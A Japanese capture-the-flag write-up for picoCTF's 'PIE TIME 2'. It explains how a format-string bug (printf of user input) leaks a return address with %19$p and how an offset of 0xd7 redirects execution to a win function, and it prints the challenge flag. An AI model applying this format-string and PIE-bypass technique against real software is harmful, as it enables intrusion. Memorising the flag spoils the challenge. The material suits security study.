



## PIE TIME 2

### 問題文

Can you try to get the flag? I'm not revealing anything anymore!!
Connect to the program with netcat:
`$ nc rescued-float.picoctf.net 63126`
The program's source code can be downloaded here. The binary can be downloaded here.

---

まずは、提供されたソースコードをwgetで取得する。  
vuln と vuln.c が取得できた。 


まずは、提供されたソースコードをwgetで取得する。  
vuln と vuln.c が取得できた。  

下のようなコードだった。  
win関数にアクセスできれば、Flagをゲットできるみたいだが、win関数の呼び出しが見当たらない。

```c
/* 重要な部分のみ抜き出しています */
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int win() {
  FILE *fptr;
  // Open file
  fptr = fopen("flag.txt", "r");

}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```


PIE TIMEとの違いは、mainアドレスが提供されず、nameを入力するところだ。  
しかし、入力された値をバリデーションチェックしていないのでそこを攻撃する  

デバッガー「gdb-peda」を使って、リターンアドレスを探す。

ローカルで実験。  
1. mainを逆アセンブルする。
逆アセンブルすると、下の様に表示され、call_functionsのリターンアドレスは、  
`0x0000555555555441`とわかる


2. winとリターンアドレスの差
先ほどのアドレスとwinのアドレスの差がどれほどあるのか調べる。  
下のように表示され、リターンアドレスと差を取ると、`0xd7`の差があった。  
このことから、リターンアドレス-0xd7の値を入力できれば、winを動かせる。


3. リターンアドレスの場所。
`printf(buffer);`が実行されたときのスタックの状態を見る。
リターンアドレスは、$rspが指すアドレスから8バイトごとに14個進んだ場所に格納されている。
  ```
  gdb-peda$ x/40gx $rsp
  0x7fffffffd940: 0x0000000000000000      0x00007ffff7fa6780
  0x7fffffffd950: 0x7025207025207025      0x2520702520702520
  0x7fffffffd960: 0x2070252070252070      0x7025207025207025
  0x7fffffffd970: 0x0a20702520702520      0x00007ffff7e0c600
  0x7fffffffd980: 0x0000000000000000      0x00007fffffffd9b0
  0x7fffffffd990: 0x00007fffffffdac8      0x9aa2cfbd64613900
  0x7fffffffd9a0: 0x00007fffffffd9b0      0x0000555555555441 <- リターンアドレス
  0x7fffffffd9b0: 0x0000000000000001      0x00007ffff7db4d90
  0x7fffffffd9c0: 0x0000000000000000      0x0000555555555400
  0x7fffffffd9d0: 0x0000000100000000      0x00007fffffffdac8
  ```

4. Format String Bugを使って、リターンアドレスを取得する
x86_64の呼び出し規約では、最初の6つの整数またはポインタの引数は汎用レジスタ(RDI, RSI, RDX, RCX, R8, R9)。
つまり、printf関数から見て、19(5+14)コ先にリターンアドレスが格納されている。  


サーバーにアクセス
1. Format String Bugを使って、`%19$p`でリターンアドレスを取得  
2. リターンアドレス - 0xd7 の値を入力して、win関数にアクセス  
3. Flagが表示される  


Flagがゲットできた。

picoCTF{p13_5h0u1dn'7_134k_af46d901}